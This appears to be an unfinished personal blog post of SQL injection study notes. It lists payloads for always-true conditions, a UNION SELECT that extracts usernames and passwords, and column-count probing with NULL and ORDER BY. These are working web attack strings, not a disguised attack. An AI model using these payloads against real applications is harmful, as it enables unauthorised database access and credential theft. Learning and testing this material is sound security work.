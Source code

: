 Title: 2022-01-01-Payloads
---
layout: post
title: SQL Payloads
status: in progress
type: post
published: true
comments: true
date: 2022-01-0
---

### Payloads
 
 #### Always True
 The following will cause the quire to allways to be true:
 ```SQL
 '+OR+1=1--
 ```
 This is use full when you can inject into a where clause like in Snip 1
 
 ### Union from other tables
 This attack assumes you are displaying items to the screen and can inject into the where clause of a query.
 ```SQL
 stuff'+UNION+SELECT+username,+password+FROM+user--
 ```
 In this case username and password are the names of the colums that we are pulling from and user is the table we are pulling them from
 
 ### Brute Force Column num with null
 ```SQL
 `' UNION SELECT NULL--  
' UNION SELECT NULL,NULL--  
' UNION SELECT NULL,NULL,NULL--  
etc.
```
Will (hopefully) throw a detectable error when the number of NULL's does not match the number of columns in the tale you are UNIONing with

Important notes: 
 - this may cause null pointer errors which you may or may not see when the data is processed
 - Null is also used because it matches every data type

 OS Specific Info
	- On oracle every select must have a where. In selecting null we can use the DUAL table so `UNION SELECT NULL FROM DUAL--`

  ### Brute Force Column num with ORDER BY
  ```SQL  
' ORDER BY 1--  
' ORDER BY 2--  
' ORDER BY 3--  
' ORDER BY N--  
etc.
```
Where this should only work when the index of the column (the number) exists in the database. So if N > the number of columns an error will occur.
